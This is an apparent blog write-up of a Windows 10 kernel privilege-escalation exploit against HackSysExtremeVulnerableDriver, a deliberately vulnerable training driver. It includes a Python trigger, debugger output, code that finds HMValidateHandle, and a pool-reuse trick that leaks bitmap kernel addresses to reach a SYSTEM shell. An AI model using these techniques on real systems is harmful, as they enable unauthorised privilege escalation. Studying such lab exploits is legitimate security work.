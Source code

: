 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver Bitmap UAF
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


* 目录
{:toc}

>[Analysis Environment]  
>guest machine: Windows 10 1607 jul x64  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Save this code as python script file.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*8 + "B"*8
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Let's trigger the vulnerability.
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0000000001080E18
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x4141414141414141
[+] UserWriteWhatWhere->Where: 0x4242424242424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```
Well, the trigger work fine.

In Win10 1703, Microsoft nulled the pKernelAddress in the GDI_CELL struct killing the old infoleak, review the last challenge,
it is the key point for our address to get pvscan0 Addr.
```
class GDICELL64(Structure):
    _fields_ = [("pKernelAddress", c_void_p),
                ("wProcessId", c_ushort), 
                ("wCount", c_ushort),
                ("wUpper", c_ushort),
                ("wType", c_ushort),
                ("pUserAddress", c_void_p)]
```


## 0x002 Exploit it

Luckily, there is another method to exploit Win10 1703. First, we should get the HMValidateHandle Addr, this is necssaary. Don't be afraid, it is painless.

HmValidateHandle is a very interesting function as we can provide it with a handle to a Window object and it will return the pointer to the user mapped tagWND object on the Desktop Heap, isn't that useful!

We may get the Addr of user32.IsMenu method, then, try to find out . 
```
kd> u user32!IsMenu
USER32!IsMenu:
00007fff`17d489e0 4883ec28        sub     rsp,28h
00007fff`17d489e4 b202            mov     dl,2
00007fff`17d489e6 e805380000      call    USER32!HMValidateHandle (00007fff`17d4c1f0)
00007fff`17d489eb 33c9            xor     ecx,ecx
00007fff`17d489ed 4885c0          test    rax,rax
00007fff`17d489f0 0f95c1          setne   cl
00007fff`17d489f3 8bc1            mov     eax,ecx
00007fff`17d489f5 4883c428        add     rsp,28h
```
Pay attention, after first 0xe8 byte opcode may be the Pointer to HMValidateHandle offset.

Try to compare with 0xe8 for every bytes after the user32.IsMenu method.
```
def findHMValidateHandle():
	global pHMValidateHandle

	kernel32.LoadLibraryA.restype = HMODULE
	hUser32 = kernel32.LoadLibraryA("user32.dll")

	kernel32.GetProcAddress.restype = c_ulonglong
	kernel32.GetProcAddress.argtypes = (HMODULE,LPCSTR)
	pIsMenu = kernel32.GetProcAddress(hUser32,"IsMenu")
	debug_print("[>] Locating HMValidateHandle()")
	debug_print("\t[+] user32.IsMenu: 0x%X" % pIsMenu)

	offset = 0
	pHMValidateHandle_offset = 0
	while(offset < 0x100):
		byte = cast(pIsMenu + offset, POINTER(c_byte))
		# if byte == 0xE8(232 - 128 - 128 = -24)
		if byte.contents.value == -24:
			pHMValidateHandle_offset = pIsMenu + offset + 1
			break;
		offset = offset + 1
	debug_print("\t[+] Pointer to HMValidateHandle offset: 0x%X" % pHMValidateHandle_offset)
	
	HMValidateHandle_offset = (cast(pHMValidateHandle_offset, POINTER(c_long))).contents.value
	debug_print("\t[+] HMValidateHandle offset: 0x%X" % HMValidateHandle_offset)

	# Add 0xb because relative offset of call starts from next instruction after call, which is 0xb bytes from start of user32.IsMenu
	pHMValidateHandle = pIsMenu + HMValidateHandle_offset + 0xb
	debug_print("\t[+] HMValidateHandle pointer: 0x%X" % pHMValidateHandle)
```

Next step, allocate a large Window menu name, free it and then allocate our Bitmap which will reuse the free'd memory, because the Window menu name (lpszMenuName) is allocated in the same Kernel pool as our bitmap. if we make the menu name larger than 4kb it ends up in the large pool which has low'ish entropy making this UAF style leak 100% reliable.

How to ensure that our predictions are completely correct？

Well, we may try to compare the lpszMenuName of reuse block with the previous freed block. Therefore, the kernelAddr of Bitmap objects is fully predictable.
```
def alloc_free_windows():
	global classNumber

	previous_entry = 0

	while (1):
		plpszMenuName = allocate_free_window()
		if previous_entry == plpszMenuName:
			return plpszMenuName
		previous_entry = plpszMenuName
		classNumber = classNumber + 1
```

Now, we only need to do the same jobs of last challenge, then, I successfully got a system cmd.
![](/assets/img/exploit/2018-08-10-hacksys-extreme-vulnerable-driver-bitmapnecromancy/0x001.png)